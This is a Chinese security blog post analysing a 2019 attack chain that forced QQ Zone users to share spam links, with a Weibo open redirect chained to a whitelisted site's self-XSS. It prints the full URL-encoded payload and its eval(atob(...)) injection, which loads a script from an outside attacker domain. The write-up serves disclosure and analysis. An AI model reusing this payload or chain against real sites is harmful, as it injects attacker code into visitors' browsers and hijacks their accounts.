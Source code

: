 ```yaml
---
title: QQ空间流氓转发分析
abbrlink: 6862
date: 2019-09-03 16:53:47
categories:
tags:
---
```


*本文原发于先知社区 <https://xz.aliyun.com/t/6238> , 博客仅备份*

## 写在之前

最近遇到多位老哥在骂,qq空间的链接一点就转发了一个封面为色情图片,内容为菠菜站的链接.我就好奇这难道是qq空间的XSS蠕虫?

BAT关键业务出了xss在9102年也不算小事情了,至少圈内会炸锅.但是一直没消息,直到我的好友也遭到了攻击.

好奇之下,抓了个包分析.发现这是个有趣的攻击链,至少我没见过这种攻击方式.由一系列漏洞组成.

中间一段时间忘了这事,前两天翻到给微博src提交的漏洞被打回.

![1](1.png)

最后一部分转发的截图和代码忘了保留,见谅.不过这也是一个有趣的绕过qq安全机制的案例.

(貌似之前看到过有人写过分析了,昨天去找的时候又没找到,于是我又自己分析了一遍)

## 分析

### payload

```
https%3A%2F%2Fweibo.cn%2Fsinaurl%3F_wv%3D1027%26cmd%3Dplay%26u%3Dhttps%253A%252F%252Fwww.whitedomin.com%252Fmember%252Findex.php%253Fgourl%253D%25252F%25252Fst.duanwenxue.com%25252Fpost-624.html%252522%25257d%252529%25257d%25252bwindow%25255b%252522eval%252522%25255d%252528atob%252528%252522ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%252522%252529%252529%25252bfunction%252528%252529%25257b%2524.post%252528%25257b1%253A%252522%2526r%253D1561387991%2526business%253D%2523123
```

一步一步来分析.

### 微博任意url跳转

已经提交给微博并被驳回,因此公开应该没什么问题.

测试一下,将payload填到浏览器并用bp抓包,可以看到

![1](2.png)

follow redirection 302跳转到了某白名单网站的网站

### 某白名单网站self-xss

(虽然该漏洞已修复,但还是抹去相关信息)

qq空间的分析链接是有验证的,虽然不知道具体验证机制,但是大致可以猜到是白名单验证.微博显然在白名单内,而且如果是302跳转会迭代验证,直到非302响应状态码.

因此还需要个存在xss漏洞在白名单内的网站.

因此黑产找了一个存在get请求的self-xss的网站,并且通过js再次进行跳转绕过检测机制.

![1](3.png)

```
https://www.whitedomin.com/member/index.php?gourl=%2F%2Fst.whitedomin.com%2Fpost-624.html%22%7d%29%7d%2bwindow%5b%22eval%22%5d%28atob%28%22ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%22%29%29%2bfunction%28%29%7b$.post%28%7b1:%22&r=1561387991&business=#123
```

xss漏洞存在于该网站站内跳转的gourl参数,再次经过302跳转后同时指向了self-xss的js代码.

```
"})}+window["eval"](atob("ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp"))+function(){$.post({1:"&r=1561387991&business=#123
```

base64解码:

`document.write("<script src='https://img.dafeiblog.com/web/if.php'></script>")`

可以看到,再次跳转向了第三方的网站,绕过了腾讯的检测机制.

### 恶意域名执行转发

(因为当时在hw,只抽了几分钟大致看了一下,以为保留了该页面的恶意js代码,后来找的时候发现并没有,抱歉)

(所以这一部分主要根据我的记忆以及猜想)

该恶意网站伪造了腾讯拦截页面.

![1](4.png)

因为腾讯的拦截页面并不显示url,所以普通用户很难发现是伪造的.

该页面下镶嵌有恶意js代码,只有30-40行,大致是两个XHR请求的函数.

猜测功能应该是跳转到博彩网站,以及请求腾讯空间转发接口.

这时候手机端按返回键回到qq空间,就会有个弹窗,提示是否转发.选择不转发还会跳出来,强行结束qq进程才能停止弹窗.

听说低qq版本或是低安卓版本没有这个提示框,会直接转发,(我并没有验证过)

## 小结

利用链是这样的:

微博任意url跳转 --- 其他白名单内网站self-xss --- 跳转至恶意网站执行恶意js 

这种绕过方法算是self-xss的新用法,用作绕过某些存在分享内容安全检测的应用.(至少我没见过)

因为恶意网站js代码没有保存.因此并不知道是如何实现的qq空间转发功能以及无限循环转发弹窗.

因为过程中并没有传输用户相关信息,只能猜测是qq提供了转发的api以供第三方应用调用,导致被黑产利用.

可以参考下这两篇较早的文章,虽然利用思路完全不一样.

<https://www.freebuf.com/vuls/75711.html>

<https://www.freebuf.com/column/144879.html>